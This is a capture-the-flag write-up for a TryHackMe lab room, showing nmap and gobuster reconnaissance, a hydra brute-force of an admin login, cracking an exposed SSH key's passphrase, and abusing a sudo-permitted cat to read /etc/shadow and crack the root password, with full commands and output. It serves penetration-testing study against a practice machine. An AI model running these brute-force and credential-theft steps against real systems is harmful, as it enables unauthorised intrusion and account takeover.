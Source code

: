 - Here, I'll take you through what you need to breeze through this room. It's pretty straightforward—you'll use tools like nmap, gobuster, hydra, and just need some basic know-how with RSA keys and Linux privilege escalation.

-  We’ll start this challenge with an nmap scan which will usually be our first action.
```shell
$ nmap -sC -sV 10.10.62.20
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

 - We only find the Apache2 default page when we put the IP in our browser.
     - We can see the Apache2 Ubuntu Default Page.
     - We didn't find any usefull stuff here.

- Next we’re going to run a Gobuster scan with our chosen directory list in order to find any hidden directories on the website.
```
$ gobuster dir -u http://10.10.148.67/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.148.67/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.148.67/admin/]
```
 
- When we go to that directory in our browser, we are faced with a simple login form.
 ![[Pasted image 20240711110013.png]]!

- Let’s check the source of the page in case there’s anything there that can help us.
![[Pasted image 20240711115339.png]]
- So here we can see the user name which is "admin"

- Now we have to use hydra for grab the password of the login page 
```
$ hydra -l admin -P /usr/share/wordlists/rockyou.txt <machine ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -t 64 -V

[80][http-post-form] host: 10.10.62.20   login: admin   password: xavier
1 of 1 target successfully completed, 1 valid password found
```
- Here we can see the password.
- Now let's login.

![[Pasted image 20240711121438.png]]
- So here we got the RSA key.
- Also we can see the web flag

- We can follow the link to the RSA key and use wget to download it to our machine.
```
$ wget http://10.10.62.20/admin/panel/id_rsa > john.id_rsa
Connecting to 10.10.62.20:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa.1’

id_rsa.1                      100%[==============================================>]   1.72K  --.-KB/s    in 0s      

2024-07-11 12:19:40 (129 MB/s) - ‘id_rsa.1’ saved [1766/1766]
```

- Next, we need to convert the key into a hash format that John the Ripper can work with by using ssh2john.
```
$ python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

- Then we can run the hash file through John and receive the passphrase for the RSA key.
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status

rockinroll       (id_rsa)

1g 0:00:00:00 DONE (2024-07-11 10:14) 12.50g/s 908000p/s 908000c/s 908000C/s saloni..rashon
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

- So we got the password, now lets login as a user.
```
 $ ssh -i id_rsa john@10.10.148.67
The authenticity of host '10.10.148.67 (10.10.148.67)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.148.67' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

```

- Let's grab the user flag.
```
john@bruteit:~$ cat user.txt
THM{**********************}
```

- It’s time to find a way to get root access.
```
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

- Let’s look that up on GTFOBins.
- We find out that we can exploit this in order to read a file.
```
john@bruteit:/home$ cd 
john@bruteit:~$ cd ../..
john@bruteit:/$ LFILELFILE^C
john@bruteit:/$ LFILE=/etc/shadow
john@bruteit:/$ sudo cat "$LFILE"
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.:18490:0:99999:7:::
```

- I think we also have to read the /etc/passwd.
```
john@bruteit:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
```

- Now we create two files in .txt format (shadow, passwd) we need for the unshadow command.
```
$ unshadow passwd.txt shadow.txt > boss.txt
```

- Again we use john for getting the root password. 
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt boss.txt    
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
football         (root)     
--------------------------------------------------------------------------------
```

- Now just simply login as a root.
```
john@bruteit:/$ su root
Password: 
root@bruteit:/# cd /root
root@bruteit:~# ls
root.txt
THM{**********************}
```

***Thanks to everyone who took the time to read my write-up. I hope you found it helpful and informative.***

 Myself 'Indranil Sen',  AKA 'HckN1L'
   [X]( https://x.com/HckN1L) , [linkedIn](https://www.linkedin.com/in/indranil-sen-a1888a256)
	